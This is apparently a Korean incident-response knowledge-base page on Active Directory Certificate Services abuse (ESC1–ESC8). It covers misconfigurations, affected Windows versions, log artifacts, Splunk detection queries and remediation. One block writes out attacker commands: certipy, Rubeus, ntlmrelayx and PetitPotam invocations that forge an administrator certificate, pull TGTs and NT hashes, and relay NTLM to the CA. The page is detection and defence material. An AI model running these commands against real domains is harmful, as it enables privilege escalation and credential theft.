

# AD 인증서 서비스 악용 (ESC1 / ESC8) { #ad-certificate-services-abuse-esc1-esc8 }

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1649 (인증용 인증서 탈취 또는 위조) · **전술:** 자격 증명 접근 / 권한 상승 / 지속성 · **최종 수정:** 2026-10-07
</div>

!!! abstract "요약"
    Active Directory Certificate Services(ADCS)는 **Kerberos 로그온(PKINIT)**에 쓸 수 있는 인증서를 발급합니다. 인증서 템플릿이나 CA 자체가 잘못 설정되어 있으면, 낮은 권한의 사용자가 **자신이 Domain Admin이라고 적힌 인증서**를 받을 수 있습니다 — 그리고 그 인증서로 TGT와 관리자의 NT 해시를 얻습니다. 2021년 "Certified Pre-Owned" 연구가 이런 잘못된 설정에 **ESC1 – ESC8**(이후 ESC9 – ESC16)이라는 이름을 붙였습니다. 인증서는 **지속성** 수단으로도 아주 좋습니다: 비밀번호를 재설정해도 살아남고, 기본적으로 1년 이상 유효합니다.

## 공격 원리 { #how-the-attack-works }



| ESC | 잘못된 설정 (요약) | 일반적인 결과 |
|---|---|---|
| **ESC1** | 템플릿이 **신청자가 제공하는 subject/SAN**을 허용 + Client Authentication EKU + 낮은 권한 사용자 등록 가능 + 관리자 승인 없음 | Domain Admin을 포함한 아무 사용자의 인증서 |
| ESC2 / ESC3 | Any-purpose EKU / Enrollment Agent 템플릿을 낮은 권한 사용자가 등록 가능 | 다른 사람 대신 인증서 요청 |
| ESC4 | 낮은 권한 사용자가 템플릿을 **수정**할 수 있음 | 템플릿을 ESC1으로 만듦 |
| ESC6 | CA 플래그 `EDITF_ATTRIBUTESUBJECTALTNAME2` 설정됨 | 모든 템플릿이 ESC1이 됨 |
| ESC7 | 낮은 권한 사용자가 CA Manager/Officer 권한을 가짐 | 자기 요청을 스스로 승인 |
| **ESC8** | EPA/HTTPS 없는 **HTTP 웹 등록** | NTLM relay → 강제 인증된 머신의 인증서 |

## 공격 도구 / 명령 { #attacker-tooling-commands }

```text
# Discovery
Certify.exe find /vulnerable
certipy find -u user@corp.local -p '...' -dc-ip 10.0.0.1 -vulnerable

# ESC1 request (recognition only)
certipy req -u user@corp.local -ca CORP-CA -template VulnTemplate -upn administrator@corp.local

# Use the certificate
certipy auth -pfx administrator.pfx -dc-ip 10.0.0.1      # TGT + NT hash
Rubeus.exe asktgt /user:administrator /certificate:admin.pfx /getcredentials

# ESC8
ntlmrelayx.py -t http://ca01/certsrv/certfnsh.asp --adcs --template DomainController
PetitPotam.py attacker_ip dc01
```

## 영향받는 Windows 버전 { #affected-windows-versions }

ADCS의 잘못된 설정은 **Server 2003부터 2025까지 모든 Enterprise CA**에 존재할 수 있습니다 — 취약한 템플릿은 관리자가 만드는 것이지, 처음부터 안전하지 않게 배포되는 것이 아닙니다(단, **기본 `User`/`Machine` 템플릿이 ESC6/ESC8 조건과 결합**되면 악용 가능합니다). 버전과 관련된 변화:

| 변경 사항 | 효과 | 적용 대상 |
|---|---|---|
| **KB5014754** (2022년 5월, CVE-2022-26923 "Certifried") — 강력한 인증서 매핑, 인증서에 새 SID 확장 추가 | dNSHostName 트릭으로 이름을 위조한 인증서를 막음; 2025년 업데이트에서 **Full Enforcement**가 기본값이 되었고, 호환 모드는 이후 제거됨 | DC 2012 R2 → 2025 (패치 적용) |
| IIS 웹 등록에 EPA 사용 가능 | **Required**로 설정하고 HTTP를 끄면 ESC8 차단 | 업데이트된 2012 R2+; 레거시 `/certsrv` 사이트에서는 기본으로 켜져 있지 않음 |
| 지원 종료된 CA (2003/2008/2012) | 강력한 매핑 수정 없음 | 반드시 마이그레이션 대상으로 취급 |

## 남는 흔적 { #artifacts-left-behind }

| 위치 | 아티팩트 | 찾을 것 |
|---|---|---|
| CA Security 로그 | **4886** (인증서 요청 수신), **4887** (인증서 발급) — 필드 `Requester`, `Attributes`, `Subject` | `Requester`가 **SAN/Subject**의 신원과 다름(예: `CORP\jsmith`가 `upn=administrator`인 인증서를 요청) = ESC1. *Audit Certification Services* 활성화와 CA 감사(`certutil -setreg CA\AuditFilter 127`)가 필요 |
| CA Security 로그 | **4899/4900** 템플릿/보안 설정 변경 | ESC4 수정 |
| CA 데이터베이스 | `certutil -view` — `Request.RequesterName`과 `SAN`이 있는 발급된 요청 | 사후 헌팅: 지금까지 발급된 모든 인증서가 DB에 있음 |
| DC Security 로그 | `Pre_Authentication_Type=16`(PKINIT)이고 `Certificate_Issuer_Name` / `Certificate_Thumbprint`가 채워진 **4768** | 인증서 기반 로그온. 대부분의 조직에서 관리자에게는 드묾 — 매우 강한 신호 |
| DC (KB5014754) | System 로그 **39 / 40 / 41** (Kdcsvc) — 인증서를 강력하게 매핑할 수 없음 | 위조되었거나 약하게 매핑된 인증서가 사용되고 있음 |
| CA의 IIS | `C:\inetpub\logs\LogFiles\W3SVC1\*.log` — 예상치 못한 IP에서 `/certsrv/certfnsh.asp`로의 POST | ESC8 relay |
| 네트워크 | `/certsrv/`로 가는 Zeek `http.log`; 브라우저가 아닌 호스트에서 CA로 가는 `ntlm.log` | ESC8 |

## 탐지 { #detection }

=== "Splunk — ESC1 (요청자 ≠ subject)"

    ```spl
    index=botsv3 sourcetype=WinEventLog EventCode=4887
    | rex field=Attributes "(?i)(san|upn)\s*:\s*(?<san_value>[^\s&]+)"
    | eval req_user=lower(mvindex(split(Requester,"\\"),1))
    | where isnotnull(san_value) AND NOT like(lower(san_value), req_user."%")
    | table _time, host, Requester, san_value, Subject, Template
    ```

    `4887` = Certificate Services가 요청을 승인하고 인증서를 발급했다는 뜻입니다. `rex`(정규식 필드 추출)는 요청자가 요구한 SAN/UPN을 `Attributes`에서 뽑아냅니다. `split(Requester,"\\")`는 `DOMAIN\user`를 나누고, `mvindex(...,1)`은 사용자 부분을 가져옵니다. 인증서의 SAN이 요청자 자신의 이름으로 시작하지 않으면, 누군가 다른 신원의 인증서를 요청한 것입니다.

=== "Splunk — PKINIT 로그온"

    ```spl
    index=botsv3 sourcetype=WinEventLog EventCode=4768 Pre_Authentication_Type=16
    | stats count, values(Certificate_Issuer_Name) as issuer, values(Client_Address) as src by Account_Name
    | sort - count
    ```

    `Pre_Authentication_Type=16` = PKINIT(인증서로 로그온)입니다. 어떤 계정이 이렇게 하는지 기준선을 잡고(스마트카드 사용자, Wi-Fi/VPN 머신 인증서), 그 목록 밖의 특권 계정에서 발생하면 경보를 울리세요.

=== "점검 — ESC1 템플릿 찾기"

    ```powershell
    certutil -v -dstemplate | Select-String "msPKI-Certificate-Name-Flag|pKIExtendedKeyUsage|cn ="
    # or: certipy find ... -vulnerable -stdout   (run it yourself before the attacker does)
    ```

## 대응 { #response }

취약한 경로로 발급된 모든 인증서를 찾아내고(CA 데이터베이스, 4887) **폐기(revoke)**한 뒤 새 CRL을 게시하세요. 사용자 비밀번호를 재설정해도 인증서는 무효화되지 *않습니다*. DC 인증서나 CA 자체가 탈취되었다면(CA 개인 키 탈취 = "Golden Certificate"), CA를 다시 구축하고 그 인증서를 `NTAuthCertificates`에서 제거해야 합니다.

### Windows 버전별 대응책 { #remediation-by-windows-version }

| 대응책 | 막는 것 | 적용 가능 버전 |
|---|---|---|
| client-auth EKU가 있는 템플릿에서 **Supply in the request**(`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`)를 제거하거나 **관리자 승인(manager approval)**을 요구 | ESC1 | 모든 Enterprise CA 버전 |
| 등록 권한과 템플릿 **쓰기** 권한을 관리자로 제한 | ESC1 / ESC4 | 전체 |
| `EDITF_ATTRIBUTESUBJECTALTNAME2` 해제 (`certutil -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2`) | ESC6 | 전체 |
| HTTP 웹 등록을 끄거나 **HTTPS + EPA Required**를 강제 | ESC8 | 2012 R2+ (EPA); 오래된 CA에서는 역할을 제거 |
| **KB5014754**를 설치하고 강력한 매핑을 **Full Enforcement**까지 적용 | Certifried와 약한 매핑 | 패치된 DC 2012 R2 → 2025 |
| CA 감사(`AuditFilter 127`) + *Audit Certification Services* 활성화 | 4886/4887/4899/4900 생성 | 모든 Enterprise CA (고급 감사 하위 범주는 2008+) |
| CA 서버를 **Tier 0**으로 취급 | CA 키 탈취 (Golden Certificate) | 운영 절차상 통제 |

## 참고 자료 { #references }

- [MITRE ATT&CK — T1649](https://attack.mitre.org/techniques/T1649/)
- [SpecterOps — Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
- [Microsoft — KB5014754 certificate-based authentication changes](https://support.microsoft.com/help/5014754)
- 관련 페이지: [LLMNR와 NTLM relay](llmnr-ntlm-relay.md) · [DCSync](dcsync.md) · [Golden & Silver 티켓](golden-silver-tickets.md)
